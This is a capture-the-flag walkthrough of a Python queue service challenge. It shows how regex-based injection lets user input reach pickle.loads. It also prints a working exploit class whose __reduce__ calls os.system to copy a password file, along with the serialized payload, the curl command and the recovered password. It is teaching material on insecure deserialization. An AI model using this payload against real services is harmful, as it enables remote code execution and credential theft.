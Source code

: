 ## Level 5

This may be the most realistic of all the challenges:
the code is not trivial,
it is not badly written,
there are no obvious mistakes.
But there is one grave mistake in it,
which is not easy to notice,
and not easy to exploit.
It's a kind of vulnerability that can happen to anyone.

What can we see easily?
The description tells us that `level05` is running an uppercasing service.
We can make calls to it using `curl`,
for example:
```
level04@box:~$ curl localhost:8005 -d 'hello friend'
{
    "processing_time": 1.621246337890625e-05, 
    "queue_time": 0.2028050422668457, 
    "result": "HELLO FRIEND"
}
```

The description also tells us that the service is structured as a queue server and a queue worker.
Sure enough,
in the `main` method we see two modes of invocations of the program,
using the `worker` or `server` as the command line argument.

As usual,
let's start by playing with the input,
and try to misuse the service with invalid values:
```
level04@box:~$ curl localhost:8005 -d $(printf '\x11\x12')
...
level04@box:~$ curl localhost:8005 -d $(python -c 'print "a" * 100')
...
level04@box:~$ curl localhost:8005 -d $(python -c 'print "a" * 1000')
...
level04@box:~$ curl localhost:8005 -d $(python -c 'print "a" * 10000')
...
```

Nothing really interesting seems to happen.
Let's see how the input is really handled by digging in the code.
Let's continue investigating the input,
by tracking down how it is processed.

As we are sending the input using HTTP,
let's look for the HTTP service implementation in the code:
it's in the `QueueHttpServer` class,
which has two methods for handling GET and POST requests.
The `do_GET` method simply prints a help message and doesn't handle any inputs,
so there is nothing we can do there.
The `do_POST` method takes the POST data and passes it to a new `QueueServer` instance:
```
def do_POST(self):
        length = int(self.headers.getheader('content-length'))
        post_data = self.rfile.read(length)
        raw_data = urllib.unquote(post_data)

        queue = QueueServer()
        job = Job()
        type, data, job = queue.run_job(data=raw_data, job=job)
        # ...
```
That in turn passes the input to `QueueUtils.enqueue`:
```
class QueueServer(object):
    # Called in server
    def run_job(self, data, job):
        QueueUtils.enqueue('JOB', data, job)
        # ...
```
... which in turn passes it to `QueueUtils.serialize`:
```
    @staticmethod
    def enqueue(type, data, job):
        # ...
        serialized = QueueUtils.serialize(type, data, job)
        # ...
```
... where we can finally see something interesting:
```
    @staticmethod
    def serialize(direction, data, job):
        serialized = """type: %s; data: %s; job: %s""" % (direction, data, pickle.dumps(job))
        # ...
```
Remember that the `POST` data we send from `curl` is now in the `data` variable in the code.
What will the serialized string look like?
We can trace back that the value of `type` can be either `JOB` or `RESULT`.
The value of `data` is whatever we send with `curl`.
And the value of job is a `Job` object,
dumped using the `pickle` library,
which seems to convert objects to strings.
We can guess that the object is probably restored later in the program from string to an object.

Is this safe?
Not quite,
as we can control the content of `data`.
What will happen if we send `x; job: hello` as the input?
The serialized string will look something like this:
```
type: JOB; data: x; job: hello; job: ???
```
We don't know yet how this serialized string is used later in the program,
but this kind of input definitely looks like a special corner case that might not be easy to handle well.
Let's see what actually happens if we call the service with such method:
```
level04@box:~$ curl localhost:8005 -d 'x; job: hello'
{
    "result": "Job timed out"
}
```
Yes, that doesn't look too good.
It looks like we have successfully corrupted the job data.
Let's track down what happens to the serialized string.
Notice the `deserialize` method in the `QueueUtils` class:
```
    @staticmethod
    def deserialize(serialized):
        parser = re.compile('^type: (.*?); data: (.*?); job: (.*?)$', re.DOTALL)
        match = parser.match(serialized)
        direction = match.group(1)
        data = match.group(2)
        job = pickle.loads(match.group(3))
```
Well, well, well.
If you are good at regular expressions the problem may be already obvious,
or we could do a quick test using the Python interpreter to see how our input would impact the processing logic here:
```
level04@box:~$ python
Python 2.7.3 (default, Apr 13 2012, 00:19:31) 
[GCC 4.6.1] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import re
>>> serialized = 'type: JOB; data: x; job: hello; job: ???'
>>> parser = re.compile('^type: (.*?); data: (.*?); job: (.*?)$', re.DOTALL)
>>> match = parser.match(serialized)
>>> match.group(2)
'x'
>>> match.group(3)
'hello; job: ???'
```
So, what we put in the input string after a semicolon,
will become the beginning of the parameter used in `pickle.loads`.
What can we do with this?
What kind of prefix string can we construct that will do something interesting when you call `pickle.loads` on it?

I'm not really familiar with `pickle`,
but we've seen earlier that `pickle.dumps` creates a string from an object,
and `pickle.loads` seems to do the reverse.
Let's play with this a little in a Python interpreter:
```
>>> import pickle
>>> pickle.dumps('hello')
"S'hello'\np0\n."
>>> pickle.dumps([1,2,3])
'(lp0\nI1\naI2\naI3\na.'
>>> pickle.dumps(pickle.dumps)
'cpickle\ndumps\np0\n.'
>>> pickle.loads(pickle.dumps(pickle.dumps))
<function dumps at 0xb7470a74>
```
As expected, `pickle` can serialize values, objects,
functions to string and convert them back.

To exploit this,
we need to read up a bit about pickle in the documentation:
http://docs.python.org/library/pickle.html
Notice the warning right on the front page:

> Warning The pickle module is not intended to be secure against erroneous or maliciously constructed data. Never unpickle data received from an untrusted or unauthenticated source.

Looks like we are on the right track:
we have already found a way to inject data for "unpickling",
now we just need to find out how can we create a pickle that will reveal the content of the password file.
There is a very interesting item in the documentation:
the `__reduce__()` method:

> When the Pickler encounters an object of a type it knows nothing about — such as an extension type — it looks in two places for a hint of how to pickle it. One alternative is for the object to implement a __reduce__() method. If provided, at pickling time __reduce__() will be called with no arguments, and it must return either a string or a tuple.
>
> (...)
>
> When a tuple is returned, it must be between two and five elements long. (...) The contents of this tuple are pickled as normal and used to reconstruct the object at unpickling time.
>
> The semantics of each element are:
>
> A callable object that will be called to create the initial version of the object. The next element of the tuple will provide arguments for this callable, and later elements provide additional state information that will subsequently be used to fully reconstruct the pickled data.

Based on this we must implement the `__reduce__` method in a certain way:

- Return a tuple
- The first item in the tuple should be a callable
- The second item should be a tuple of arguments for the callable

So, what should be the callable and its arguments?
Perhaps the Python equivalent of the shellcode we used in C programs?
For example,
`os.system` and the argument some appropriate shell command,
like this:
```
import pickle
import os

class Exploit(object):
    def __reduce__(self):
        return (os.system, ('cat /home/level05/.password > /tmp/p',))

print '; job: ' + pickle.dumps(Exploit())
```

Let's save this in a file,
say `exploit.py`,
run it, and save its output:
```
level04@box:~$ python exploit.py > pickle.txt
level04@box:~$ cat pickle.txt
; job: cposix
system
p0
(S'cat /home/level05/.password > /tmp/p'
p1
tp2
Rp3
.
```
Our crafted input has the right prefix,
`; job: `,
let's send this to the service:
```
level04@box:~$ curl localhost:8005 --data-urlencode @pickle.txt
{
    "result": "Job timed out"
}
level04@box:~$ cat /tmp/p
diebasuw
```

Bingo!

What can we learn from all this?

- Read the documentation carefully:
  it warned about the dangers of unpickling untrusted text loud and clear.
  In fact, is it really necessary to use pickles?
  Use JSON serialization instead, it's safer.

- Always validate user input carefully.
  Trace in your code all the places where the user input might pass through,
  and make sure your input validation is strict enough.
